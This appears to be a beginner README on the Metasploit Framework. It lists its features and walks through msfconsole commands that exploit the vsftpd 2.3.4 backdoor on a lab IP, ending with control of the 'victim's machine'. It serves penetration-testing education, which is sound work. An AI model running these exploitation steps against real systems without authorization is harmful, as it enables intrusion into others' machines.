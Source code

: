 # 💣 Metasploit Framework

##     Description

Metasploit is an open-source penetration testing framework widely used for developing, testing, and executing exploits against 
target systems. It provides security professionals and ethical hackers with powerful tools for vulnerability research, exploit development,
and penetration testing.

---

## ✅ Key Features:

- Huge collection of ready-to-use exploits, payloads, and auxiliary modules

- Post-exploitation tools for maintaining access and gathering data

- Built-in Meterpreter payload for advanced exploitation

- Support for vulnerability scanning and exploitation

- Integrates with tools like Nmap, Nessus, and Burp Suite

- Useful for red teaming, security assessments, and training

---

## Metasploit Use

- After scanning the ports of the Target machine you have seen all the active and open ports of the target machine.

- To get start with metasploit type command `msfconsole`.

- From the open ports version check which version is running on the target machine.

- Now check that version exploit is there on your Metasploit Framework by typing the command `search exploit: exploit name`.

- If that exploit is present in your metasploit framework than it will be easy for you to exploit your target machine, and
if it is not present in the metaploit framework than youhave to download it from the web browser or you can create your own exploit.


## 🛠 Example Usage

#### Start Metasploit console
**`msfconsole`**

#### Search for an exploit
**`search vsftpd`**

#### Use a module
**`use exploit/unix/ftp/vsftpd_234_backdoor`**

#### Show module options
**`show options`**

#### Set target and payload
**`set RHOSTS 192.168.1.10`**

#### Run the exploit
**`exploit`**

- After typing the Exploit it will either make a succesfull connection of connection will be failed.

- If connection is establised than simplly type command `ip a` and it will show to IP Address of the Target Machine.

- Congratualtions Now you can use the victim's machine.



https://github.com/user-attachments/assets/2852cf29-1530-4f0a-88d7-b9369f331194



  ---



